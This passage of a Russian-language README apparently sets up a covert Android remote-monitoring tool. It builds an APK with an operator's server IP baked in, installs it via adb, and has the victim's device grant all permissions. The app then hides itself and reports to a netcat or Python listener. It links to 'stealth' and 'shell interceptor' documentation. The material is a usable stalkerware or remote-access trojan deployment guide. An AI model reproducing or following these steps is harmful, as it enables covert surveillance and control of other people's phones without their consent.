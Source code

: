 **Шаг 2: Открыть веб интерфейс**
- 🌐 Перейдите в браузер: `http://YOUR_IP:8080`
- 📋 Увидите инструкции по настройке APK

### 📱 Android приложение

**Шаг 3: Сборка APK с настройками сервера**
```bash
# Автоматическая сборка с IP и портом сервера
./scripts/build_apk.sh 192.168.1.100 8080 release

# Результат: builds/RemoteMonitoring-192_168_1_100-8080-release.apk
```

**Шаг 4: Установка APK**
```bash
# Через ADB
adb install builds/RemoteMonitoring-192_168_1_100-8080-release.apk

# Или скопируйте APK на устройство и установите вручную
```

**Шаг 5: Настройка прав доступа**
1. Включите "Неизвестные источники" в настройках Android
2. Установите APK
3. Разрешите все запрашиваемые права доступа
4. Приложение автоматически скроется и начнет работу

### 🌐 Альтернативные методы подключения

```bash
# Простой netcat сервер
nc -l -p 8080

# Netcat-like режим (встроенный)
python3 server/simple_server.py --mode netcat --port 8080

# HTTPS сервер (с SSL сертификатом)
python3 server/simple_server.py --https --cert server.crt --key server.key
```

## 📆 Документация

- 📋 [**Полное руководство**](docs/SYSTEM_OVERVIEW.md) - обзор всей системы
- 🗚️ [**Настройка сервера**](docs/SERVER_SETUP.md) - запуск и настройка
- 🔧 [**Shell перехватчик**](docs/SHELL_INTERCEPTION.md) - детали работы
- 📋 [**Архитектура системы**](docs/ARCHITECTURE.md)
- 🕵️ [**Стелс функции**](README_STEALTH.md)
- 📱 [**Обновление до Android 14**](docs/ANDROID_14_UPGRADE.md)
- 🔐 [**Система разрешений**](docs/PERMISSIONS.md)

## 🔧 API
